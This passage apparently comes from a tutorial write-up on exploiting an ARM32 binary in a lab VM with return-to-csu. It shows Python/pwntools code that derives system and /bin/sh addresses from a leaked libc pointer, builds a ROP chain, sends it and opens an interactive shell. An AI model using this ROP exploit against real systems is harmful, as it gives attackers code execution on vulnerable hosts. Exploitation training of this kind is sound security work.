 _#### Phase 02 - Calling System_

_system\_offset = 0x60910 # difference between write and system address_

_binsh\_offset = 0x49814 # difference between write and /bin/sh address_

_system = (leaked\_write - system\_offset) # to get the randomized address of system_

_log.success(&#39;Leaked system@GLIBC: &#39; + hex(system))_

_binsh = (leaked\_write + binsh\_offset) - 1 # to get the randomized address of /bin/sh_

_log.success(&#39;Leaked /bin/sh: &#39; + hex(binsh)) # 1 is subtracted to convert in thumb mode_

_# second rop chain to call system_

_payload2 = junk_

_payload2 += p32(gadget1)_

_payload2 += p32(system)_

_payload2 += p32(0x0)_

_payload2 += p32(0x0)_

_payload2 += p32(0x0)_

_payload2 += p32(binsh)_

_payload2 += p32(0x0)_

_payload2 += p32(0x0)_

_payload2 += p32(gadget2)_

_p.sendline(payload2)_

_p.recv()_

_p.interactive()_
::::

### **Running Exploit**

After running this exploit, we got the shell! 

<p align="center">
<img src="https://github.com/xetrapwn/xetrapwn.github.io/blob/master/images/return-to-csu_on_ARM32/figure13.png">
<br>
Fig 13 - Running exploit
</p>

### **References**

[1] &quot;Azeria Labs.&quot;[https://azeria-labs.com/](https://azeria-labs.com/) (accessed Jun. 06, 2021).

[2] &quot;Lab VM 2.0,&quot; _Azeria-Labs_.[https://azeria-labs.com/lab-vm-2-0/](https://azeria-labs.com/lab-vm-2-0/) (accessed Jun. 06, 2021).
